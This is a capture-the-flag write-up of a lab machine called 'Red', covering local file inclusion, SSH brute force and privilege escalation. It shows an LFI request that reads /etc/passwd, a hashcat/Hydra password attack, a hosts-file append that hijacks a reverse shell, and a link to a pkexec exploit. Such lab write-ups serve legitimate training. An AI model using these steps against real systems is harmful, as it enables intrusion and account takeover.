

# Red

Scanning for target, we discover 2 open ports. SSH running on port 22 and web server on port 80.

Looking around the website and source code didn't give us any leads. 

But the URL gave us an idea to try out Local File Inclusion (LFI) using PHP wrapper. And as expected we got a lead. We were able to retrieve the `/etc/passwd` file from the machine.

`http://10.10.81.76/index.php?page=php://filter/resource=/etc/passwd`

From the file we got to see the existence of two users `blue` and `red` . Next we retrieved the contents of `.bash_history` from `/home/blue` . This revealed that a passlist was generated with a file `.reminder`  as the base and `best64.rule` ruleset using hashcat.

We retrieved the contents of `.reminder` and used hashcat and same ruleset to create a passlist.

`hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt` 

From there we used the passlist and the username blue to brute force our way in through SSH using hydra.

Now we have access to the machine as blue. From here we get the fist flag.

As we progressed by checking through the folders and files we were getting kicked out from the machine from time to time and red was taunting us with his quips. This means some process is running in the background which enables him to do so. So we used `pspy64` by running it in`/tmp` folder.  This reveals a command being run that tries to establish a reverse shell to server `redrules.thm`  on port 9001.

Checking for files with writable permissions for blue, we find `/etc/hosts` is one of them

`find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)’`

Examining the hosts file we find the address `redrules.thm` resolved to an IP address.  Now we try to change the IP to our ATTACKER machine IP but we are not able to do so. Checking the permissions of the file using`lsattr /etc/hosts` reveal: `-----a--------e----- /etc/hosts` . That is we can append  it. Therefore `echo [attackboxIP] redrules.thm >> /etc/hosts` will work. We setup  a `netcat` on port 9001 and wait.

[PS :Red keeps changing contents of `/etc/hosts` so keep an eye out whether our changes are still there.]

Viola we get access as user red on the machine and the second flag.

Digging into the hidden files leads us to `.git` folder. Which contains `pkexec` , Hmmm not the usual place for it. 

Checking the version we find it as `0.105` . Quick google and we find an exploit.

Quick search in google takes us to a GitHub repository with the exploit.

[https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)

Running it gets us the root access and the final flag.

